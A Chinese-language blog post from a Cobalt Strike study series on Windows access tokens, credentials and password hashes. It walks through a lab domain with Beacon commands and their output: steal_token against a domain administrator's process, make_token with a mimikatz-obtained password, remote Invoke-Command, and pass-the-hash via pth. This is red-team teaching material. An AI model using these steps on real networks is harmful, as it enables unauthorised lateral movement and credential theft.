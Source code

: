 ```yaml
---
title: 【CS学习笔记】17、登陆验证的难点
date: 2020-04-19 15:06:22
id: 200419-150622
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs17-1.png
summary: 如果当前账号权限被系统认为是本地管理员权限，那么就可以执行很多管理员才能做的事，接下来就来看一下这样的一个过程是如何工作的
tags:
- Cobalt Strike
- 学习笔记
- 红队
categories:
- CS 学习笔记
---
```


# 0x00 前言

如果当前账号权限被系统认为是本地管理员权限，那么就可以执行很多管理员才能做的事，接下来就来看一下这样的一个过程是如何工作的，其中会涉及到以下要点：

1、`Access Token` 登录令牌

2、`Credentials` 凭证

 3、`Password Hashes` 密码哈希

4、`Kerberos Tickets` 登录凭据

# 0x01 登录令牌

* 登录令牌在登录之后被创建
* 与每个进程和线程相关联
* 包括：
  * 用户和用户组的信息
  * 本地计算机上的特权列表
  * 限制（删除用户和用户组的权限）
  * 参考凭证（支持单点登录）
* 一直保存在内存中，直到系统重启

**以下是令牌窃取的过程：**

* 使用 `ps` 列出进程
* 使用 `steal_token [pid]` 窃取令牌
* 使用 `getuid` 找到你是谁
* 使用 `rev2self` 移除令牌

接下来将对这些命令进行演示，目前有一个 SYSTEM 权限的会话，该会话在 WIN-72A8ERDSF2P 主机下，此时想查看 WIN-P2AASSD1AF1 主机下的文件（WIN-P2AASSD1AF1 主机是 TEAMSSIX 域的域控制器），那么直接运行 dir 会提示拒绝访问。

```powershell
beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
```

此时，先用 `ps` 查看一下当前系统进程信息。

```powershell
beacon> ps
[*] Tasked beacon to list processes
[+] host called home, sent: 12 bytes
[*] Process List
 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 0     0     [System Process]                               
 4     0     System                       x64   0           NT AUTHORITY\SYSTEM
……内容太多，此处省略……
 3720  524   taskhost.exe                 x64   2           WIN-75F8PRJM4TP\Administrator
 4092  236   dwm.exe                      x64   3           TEAMSSIX\Administrator
```

通过进程信息可以发现 TEAMSSIX 域下的管理员账户此时在当前 SYSTEM 会话的主机上是登录着的，使用 `steal_token [pid]` 命令窃取 TEAMSSIX\Administrator 账户的令牌

```powershell
beacon> steal_token 4092
[*] Tasked beacon to steal token from PID 4092
[+] host called home, sent: 12 bytes
[+] Impersonated TEAMSSIX\administrator
```

查看一下当前会话 uid

```powershell
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are TEAMSSIX\administrator (admin)
```

再次尝试获取域控制器主机下的文件

```powershell
beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WIN-P2AASSD1AF1\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WIN-P2AASSD1AF1\C$ 的目录
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件      0 字节
               4 个目录 28,493,299,712 可用字节
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs17-1.png)

发现可以成功访问了，使用  `rev2self` 可移除当前窃取的令牌

```powershell
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 8 bytes
```

再次查看 uid 发现变成了原来的 SYSTEM 权限，此时 WIN-P2AASSD1AF1 主机上的文件也拒绝访问了。

 ```powershell
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
 ```

# 0x02 凭证

1、使用 make_token 创建一个令牌

```powershell
make_token DOMAIN\user password
```

在运行命令之前，需要知道要获取令牌用户的密码，这里可以使用 mimikatz 进行获取，具体的方法可参考[《CS学习笔记 | 14、powerup提权的方法》](https://teamssix.com/year/200419-150600.html)这一节中的介绍。

这里还是和上文一样的环境，在一个 SYSTEM 会话下，获取 TEAMSSIX\administrator 账号令牌，使用 mimikatz 可以得知 TEAMSSIX\administrator 账号密码为 Test111!，接下来使用 `make_token` 命令。

```powershell
beacon> make_token TEAMSSIX\administrator Test111!
[*] Tasked beacon to create a token for TEAMSSIX\administrator
[+] host called home, sent: 53 bytes
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WIN-P2AASSD1AF1\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WIN-P2AASSD1AF1\C$ 的目录
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件      0 字节
               4 个目录 28,493,299,712 可用字节
               
beacon> powershell Invoke-Command -computer WIN-P2AASSD1AF1 -ScriptBlock {whoami}
[*] Tasked beacon to run: Invoke-Command -computer WIN-P2AASSD1AF1 -ScriptBlock {whoami}
[+] host called home, sent: 231 bytes
[+] received output:
teamssix\administrator
```

当密码输入错误时，执行上面的两个命令就会提示 `登录失败: 未知的用户名或错误密码。` 同样的使用 `rev2self` 可除去当前令牌，恢复原来的 SYSTEM 权限。

2、使用 spawn beacon 替代凭证

```powershell
spawnas DOMAIN\user password
```

3、在目标上建立账户

```powershell
net use \\host\C$/USER:DOMAIN\user password
```

这两种方法，在之前的笔记中都或多或少的提及过，这里不再过多赘述。

# 0x03 密码哈希

使用 mimikatz 获取密码哈希

```
pth DOMAIN\user ntlmhash
```

如何工作的？

1、mimikatz 使用登录令牌开启了一个进程，在单点登录信息那里填入我们提供的用户名称、域、密码哈希值

2、cobalt strike 自动的从那个进程中窃取令牌并关闭

> 参考链接：[https://www.bilibili.com/video/BV16b411i7n5](https://www.bilibili.com/video/BV16b411i7n5)
> 
>更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)